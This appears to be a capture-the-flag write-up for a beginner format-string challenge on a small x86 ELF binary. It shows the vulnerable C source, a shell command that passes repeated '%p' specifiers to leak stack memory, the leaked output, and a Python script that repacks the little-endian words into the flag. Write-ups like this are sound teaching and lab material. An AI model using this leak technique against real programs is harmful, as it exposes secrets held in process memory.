




# ELF x86 - Format string bug basic 1

## Summary

A format‑string vulnerability (`printf(argv[1])`) lets us read stack memory. The program reads the flag into a local buffer, so by leaking stack words we can reconstruct the flag (it’s stored as a NUL‑terminated C string). Key pitfalls: little‑endian packing and non‑printable bytes — we fix those by packing the leaked 32‑bit words as little‑endian and stopping at the first NUL.

---

## Vulnerable source (for reference)

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    FILE *secret = fopen("flag.txt", "rt");
    char buffer[32];
    fgets(buffer, sizeof(buffer), secret);
    printf(argv[1]);     // <-- format string vuln
    fclose(secret);
    return 0;
}
```

Key points:

* The program reads the flag into `buffer` using `fgets()` (so the flag is in stack memory).
* `printf(argv[1])` calls `printf()` with a user‑controlled format string — **format string vulnerability**. This allows arbitrary stack reads (and in other contexts arbitrary writes via `%n`, but here we'll use reads).
* The flag is present in process memory (stack). If we can find which stack words contain the flag bytes, we can reconstruct it.


## Leak stack contents with format directives

We want to print many stack words so we can find the flag bytes. A convenient way is to ask the program to print a sequence of `%p` (pointer) or `%x` specifiers.

Command used:

```bash
./chall "$(python -c "print(' '.join(['%p,']*20))")"
```

This prints 20 successive pointer‑sized stack words (comma separated). Example output we observed:

```
0x578561a0, 0x1c, 0x20, (nil), (nil), 0x67616c66, 0x6c6f737b, 0x7d646576, (nil), ...
```



Important observations:

* Some words are `(nil)` — they are NULL pointers (0).
* The words `0x67616c66 0x6c6f737b 0x7d646576` look like hex words related to ASCII; they are the flag bytes but packed into 32‑bit words.
* The endianness of the host is **little‑endian**, so each 32‑bit word contains 4 ASCII bytes in reversed order (when viewed as a human string).

---

## Why the bytes looked scrambled (`galf...`)

When you print 32‑bit words as hex you get the numeric value that results from interpreting the 4 bytes in little‑endian order. For example:

* The ASCII bytes for `flag` are: `0x66 0x6c 0x61 0x67` (`f l a g`) in increasing memory addresses.
* Interpreting these bytes as a little‑endian 32‑bit integer yields `0x67616c66`.
* If you concatenate these integers and read them in integer order and then reinterpret them as bytes without handling little‑endian correctly, the group order or internal byte order looks wrong (e.g. you might read `galf` if you print the integer bytes in the wrong order).




So to rebuild the string, you must **pack each leaked 32‑bit hex word as little‑endian** and then join the bytes and stop at the first NUL (`\x00`), because the flag is a C string.

---

## Reconstruct the flag from leaked words

we will use this script to reconstruct the flag 

```python
import struct
words = [0x67616c66,0x6c6f737b,0x7d646576,0x415d0000,0xffaa14c0,0xf7f78e14,0x565cbecc,0xf7fdfb60]
s = b''.join(struct.pack('<I', w) for w in words)
flag = s.split(b'\x00',1)[0].decode()   # stop at first NUL
print(flag)   
```

i have just removedn the extra bytes 

now when it encounter an first NUL it will stop and give us the flag





we can also see this using any debugger

